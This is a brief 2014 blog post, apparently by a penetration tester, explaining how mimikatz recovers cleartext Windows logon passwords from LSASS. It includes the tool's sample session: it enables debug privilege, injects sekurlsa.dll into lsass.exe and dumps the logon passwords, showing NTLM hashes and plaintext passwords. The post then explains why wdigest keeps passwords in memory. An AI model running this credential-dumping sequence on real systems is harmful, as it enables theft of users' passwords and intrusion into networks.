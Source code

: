 ```yaml
---
layout: post
title: "Mimikatz"
modified:
categories: 
excerpt:
tags: []
image:
  feature:
date: 2014-11-23T17:30:31+04:00
---
```

Here’s a brief post about very cool feature of a tool called mimikatz.
I’m very grateful to the tool’s author for bringing it to my attention. Until that point, I didn’t realise it was possible to recover the cleartext passwords of logged on windows users. Something that I’m sure most pentesters would find very useful.

> Here’s some sample output provided by the author:

{% highlight text %}
mimikatz 1.0 x86 (pre-alpha)    /* Traitement du Kiwi */

mimikatz # privilege::debug
Demande d'ACTIVATION du privilège : SeDebugPrivilege : OK

mimikatz # inject::process lsass.exe sekurlsa.dll
PROCESSENTRY32(lsass.exe).th32ProcessID = 488
Attente de connexion du client...
Serveur connecté à un client !
Message du processus :
Bienvenue dans un processus distant
                        Gentil Kiwi

SekurLSA : librairie de manipulation des données de sécurités dans LSASS

mimikatz # @getLogonPasswords

Authentification Id         : 0;434898
Package d'authentification  : NTLM
Utilisateur principal       : Gentil User
Domaine d'authentification  : vm-w7-ult
        msv1_0 :        lm{ e52cac67419a9a224a3b108f3fa6cb6d }, ntlm{ 8846f7eaee8fb117ad06bdd830b7586c }
        wdigest :       password
        tspkg :         password

Authentification Id         : 0;269806
Package d'authentification  : NTLM
Utilisateur principal       : Gentil Kiwi
Domaine d'authentification  : vm-w7-ult
        msv1_0 :        lm{ d0e9aee149655a6075e4540af1f22d3b }, ntlm{ cc36cf7a8514893efccd332446158b1a }
        wdigest :       waza1234/
        tspkg :         waza1234/
{% endhighlight %}

I wondered why the cleartext password would need to be stored in LSASS – after all every pentester will tell you that you don’t need the password to authenticate, just the hash.
A bit of googling seems to indicate that wdigest (the password) is required to support HTTP Digest Authentication and other schemes that require the authenticating party to know the password – and not just the hash.
---
